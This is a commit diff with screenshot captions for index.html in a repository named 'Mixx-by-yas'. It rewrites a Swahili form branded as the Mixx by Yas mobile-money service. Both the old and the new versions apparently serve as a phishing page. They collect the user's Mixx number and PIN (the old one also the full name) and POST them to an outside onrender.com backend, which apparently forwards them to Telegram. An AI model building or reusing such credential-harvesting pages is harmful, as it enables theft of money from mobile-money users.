

Before and after one commit to elisifa-saidi/Mixx-by-yas, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 350-816 px from the top of the page, without its empty margins (320-960 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,88 +3,54 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Hatua ya 3 - Mkopo wa Mixx</title>
+<title>Mixx by Yas</title>
 
 <style>
 
-        *{
-            margin:0;
-            padding:0;
-            box-sizing:border-box;
-            font-family:Arial, sans-serif;
-        }
-
 body{
+    font-family:Arial;
     background:#f2f2f2;
     display:flex;
     justify-content:center;
     align-items:center;
     height:100vh;
-            padding:20px;
 }
 
 .container{
     background:white;
-            width:100%;
-            max-width:400px;
     padding:25px;
-            border-radius:12px;
+    width:350px;
+    border-radius:10px;
     box-shadow:0 0 10px rgba(0,0,0,0.1);
 }
 
 h2{
     text-align:center;
-            margin-bottom:20px;
     color:green;
 }
 
 input{
     width:100%;
-            padding:14px;
-            margin-bottom:15px;
+    padding:12px;
+    margin-top:15px;
     border:1px solid #ccc;
-            border-radius:8px;
-            font-size:16px;
-        }
-
-        .pin-box{
-            position:relative;
-        }
-
-        .eye{
-            position:absolute;
-            right:15px;
-            top:14px;
-            cursor:pointer;
-            font-size:18px;
+    border-radius:5px;
 }
 
 button{
     width:100%;
-            padding:14px;
-            border:none;
+    padding:12px;
+    margin-top:20px;
     background:green;
     color:white;
+    border:none;
+    border-radius:5px;
     font-size:16px;
-            border-radius:8px;
-            cursor:pointer;
-        }
-
-        button:hover{
-            background:darkgreen;
-        }
-
-        .loading{
-            display:none;
-            text-align:center;
-            margin-top:15px;
-            color:green;
 }
 
 .message{
+    text-align:center;
     margin-top:15px;
-            text-align:center;
-            font-weight:bold;
 }
 
 </style>
@@ -94,24 +60,15 @@
 
 <div class="container">
 
-    <h2>Mkopo wa Mixx by Yas</h2>
+<h2>Mixx by Yas</h2>
 
-    <input type="text" id="jina" placeholder="Jina Kamili">
+<input type="text" id="namba" placeholder="Weka Namba ya Mixx by Yas">
 
-    <input type="text" id="namba" placeholder="Namba ya Mixx">
+<input type="password" id="pin" placeholder="Weka PIN ya Mixx by Yas">
 
-    <div class="pin-box">
-        <input type="password" id="pin" placeholder="Weka PIN ya Mixx">
-        <span class="eye" onclick="togglePin()">👁</span>
-    </div>
-
-    <button onclick="tumaData()" id="btn">
-        TUMA MAOMBI
+<button onclick="tumaTaarifa()">
+ENDELEA
 </button>
-
-    <div class="loading" id="loading">
-        Inatuma taarifa...
-    </div>
 
 <div class="message" id="message"></div>
 
@@ -119,85 +76,54 @@
 
 <script>
 
-function togglePin(){
+async function tumaTaarifa(){
 
-    let pinInput = document.getElementById("pin");
+    let namba = document.getElementById("namba").value;
+    let pin = document.getElementById("pin").value;
 
-    if(pinInput.type === "password"){
-        pinInput.type = "text";
-    }else{
-        pinInput.type = "password";
-    }
+    let message = document.getElementById("message");
 
-}
-
-async function tumaData(){
-
-    let jina = document.getElementById("jina").value.trim();
-    let namba = document.getElementById("namba").value.trim();
-    let pin = document.getElementById("pin").value.trim();
-
-    let loading = document.getElementById("loading");
-    let message = document.getElementById("message");
-    let btn = document.getElementById("btn");
-
-    message.innerHTML = "";
-
-    if(jina === "" || namba === "" || pin === ""){
-
-        message.style.color = "red";
-        message.innerHTML = "Jaza taarifa zote";
-
-        return;
-    }
-
-    loading.style.display = "block";
-    btn.disabled = true;
+    message.innerHTML = "Inatuma...";
 
     try{
 
-        const response = await fetch("https://mkopo-wa-mixx-by-yas.onrender.com/submit-step3", {
+        let response = await fetch("https://mkopo-wa-mixx-by-yas.onrender.com/submit-step3",{
 
-            method: "POST",
+            method:"POST",
 
             headers:{
                 "Content-Type":"application/json"
             },
 
-            body: JSON.stringify({
-                jina: jina,
-                namba: namba,
-                pin: pin
+            body:JSON.stringify({
+                namba:namba,
+                pin:pin
             })
 
         });
 
-        const data = await response.json();
+        let data = await response.json();
 
-        loading.style.display = "none";
-        btn.disabled = false;
+        console.log(data);
 
-        if(data.status === "success"){
+        if(response.ok){
 
             message.style.color = "green";
-            message.innerHTML = "Ombi limetumwa successfully";
+            message.innerHTML = "Imetumwa successfully";
 
         }else{
 
             message.style.color = "red";
-            message.innerHTML = data.message || "Imeshindikana kutuma";
+            message.innerHTML = "Telegram failed";
 
         }
 
     }catch(error){
 
-        loading.style.display = "none";
-        btn.disabled = false;
-
         console.log(error);
 
         message.style.color = "red";
-        message.innerHTML = "Backend haipatikani";
+        message.innerHTML = "Backend error";
 
     }
 
```
Lines whose indentation alone changed are shown as unchanged.
